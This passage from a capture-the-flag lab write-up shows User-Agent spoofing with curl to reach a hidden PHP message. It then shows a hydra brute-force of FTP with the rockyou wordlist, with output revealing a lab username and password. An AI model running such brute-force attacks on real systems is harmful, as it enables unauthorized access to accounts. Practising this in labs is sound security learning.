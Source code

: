 ```
<p>
	Dear agents,
	<br><br>
	Use your own <b>codename</b> as user-agent to access the site.
	<br><br>
	From,<br>
	Agent R
</p>
</body>
</html>
```
So let is check out Agent C now and see what we get:

```
HTTP/1.1 302 Found
Date: Wed, 05 Aug 2020 07:00:13 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: *agent_C_attention.php*
Content-Length: 218
Connection: close
Content-Type: text/html; charset=UTF-8
```

The wording is the same as the rest but we have a .php file we can look at. So let us add that file to the browser tab and see what we get:
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```
So a message from Agent R to chris (more likely an indication that all names relate to Agent status: Agent C = Chris). We also have an indication that we have a poor password. So let us look at the two areas we know about - FTP and SSH.

For reference if we used the curl command on the website, it has the option to: -A, --user-agent <name> Send User-Agent <name> to server and also incase of redirects (as we see for the .php file above), we can add: -L, --location      Follow redirects.
```
curl 'http://10.10.96.58/' -A C -L
```
This will give us the same text as above for Chris, and I'm sure this could have been automated for all the agents in a bash script.


## hydra

Hydra can easily be set up for both FTP and SSH brute forcing. In this case I tried FTP first and within a few minutes had a username and password set.
```

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.96.58
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-05 08:21:21
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.96.58:21/
[21][ftp] host: 10.10.96.58   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
```